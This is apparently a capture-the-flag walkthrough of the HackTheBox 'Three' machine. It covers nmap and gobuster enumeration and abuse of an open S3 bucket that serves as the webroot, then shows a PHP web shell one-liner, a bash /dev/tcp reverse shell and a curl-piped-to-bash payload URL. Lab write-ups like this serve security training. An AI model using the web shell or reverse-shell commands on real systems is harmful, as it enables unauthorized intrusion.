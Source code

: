 ## Reconnaissance

Kicking off with a simple Nmap scan...

__Nmap Scan__
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/three]
└─$ sudo nmap -sC -sV -oN nmap.txt 10.129.50.86  
[sudo] password for darshan: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-22 09:02 EST
Nmap scan report for 10.129.50.86
Host is up (0.30s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.57 seconds
```

Just like a typical ctf challenge, we got 2 open ports.
- port `22`: running `OpenSSH 7.6p1`
- port `80`: running `Apache httpd 2.4.29`

Visiting the website, I found out that it was just a static web-site which did nothing, but scrolling down to the bottom, I found an interesting thing. 

A domain `thetoppers.htb`. I added the domain to `/etc/hosts` file with the corresponding IP address to be able to access this domain in my browser.

The `/etc/hosts` file is used to resolve a hostname into an IP address. By default, the `/etc/hosts` file is
queried before the DNS server for hostname resolution thus we will need to add an entry in the
`/etc/hosts` file for this domain to enable the browser to resolve the address for `thetoppers.htb` .

```
echo "<machine IP> thetoppers.htb" | sudo tee -a /etc/hosts
```

## Enumeration

Now, I decided to run `gobuster` against the domain to enumerate sub-domains

```
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u
http://thetoppers.htb
```

And i got back the following results: 

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/three]
└─$ gobuster vhost -w /usr/share/wordlists/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb/ 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://thetoppers.htb/
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/01/22 09:06:37 Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb (Status: 404) [Size: 21]
...
```

I added this sub-domain to the `/etc/hosts` file too.

```
echo "<machine IP> s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

Visiting the web-page, I found out that it contains only the following JSON.
`{"status": "running"}`

![three-1](https://user-images.githubusercontent.com/87711310/213921329-b85f348d-1e0e-4341-9f74-4ee4420bd473.png)


It's an `aws s3 bucket`, so i decided to use `awscli` to further enumerate the machine

We can interact with this `S3 bucke`t with the aid of the `awscli` utility. It can be installed on Linux using the
command 
```
apt install awscli
```

Then, we need to configure it using the following command:
```
aws configure
```

We can list all of the S3 buckets hosted by the server by using the `ls` command.

```
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/three]
└─$ aws --endpoint=http://s3.thetoppers.htb s3 ls
2023-01-22 08:52:20 thetoppers.htb
```

We can also use the ls command to list objects and common prefixes under the specified bucket.

```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

And it retured the following results:
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/three]
└─$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2023-01-22 08:52:20          0 .htaccess
2023-01-22 08:52:20      11952 index.php
```


We see the files `index.php` , `.htaccess` and a directory called `images` in the specified bucket. It seems like
this is the webroot of the website running on port `80` . So the Apache server is using this S3 bucket as
storage.

`awscli` has got another feature that allows us to `copy files` to a remote bucket. We already know that the
website is using PHP. Thus, we can try uploading a PHP shell file to the S3 bucket and since it's uploaded to
the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we
will achieve remote code execution.

We can use the following PHP one-liner which uses the `system()` function which takes the URL parameter
cmd as an input and executes it as a system command.

```php
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Then, we can upload this PHP shell to the thetoppers.htb S3 bucket using the following command.

```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

We can confirm that our shell is uploaded by navigating to `http://thetoppers.htb/shell.php`. 

Let us try executing the OS command `id` using the URL parameter `cmd` .

![three-2](https://user-images.githubusercontent.com/87711310/213921648-f1229ca8-bf7f-4bed-ab74-8300cb23857a.png)

The response from the server contains the output of the OS command id , which verified that we have code
execution on the box. Thus, let us now try to obtain a reverse shell.

```bash
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

We will start a `netcat` listener on our local port 1337 using the following command.
```
nc -lvnp 1337
```

Let's start a web server on our local machine on port 8000 and host this bash file.
```
python3 -m http.server 8000
```

We can use the curl utility to fetch the bash reverse shell file from our local host and then pipe it to bash
in order to execute it. Thus, let us visit the following URL containing the payload in the browser.

```
https://thetoppers.htb/shell.php?cmd=curl%20%3CYOUR_IP_ADDRESS%3E:8000/shell.sh|bash
```

We receive a reverse shell on the corresponding listening port.

```
┌──(darshan㉿kali)-[~]
└─$ nc -lvnp 1337                              
listening on [any] 1337 ...
connect to [10.10.16.14] from (UNKNOWN) [10.129.50.86] 41150
bash: cannot set terminal process group (1571): Inappropriate ioctl for device
bash: no job control in this shell
www-data@three:/var/www/html$ whoami
whoami
www-data
...
```

The flag can be found at `/var/www/flag.txt` .
```
www-data@three:/var/www/html$ cd ..
cd ..
www-data@three:/var/www$ ls
ls
flag.txt
html
www-data@three:/var/www$ cat flag.txt
cat flag.txt
[REDACTED]
```
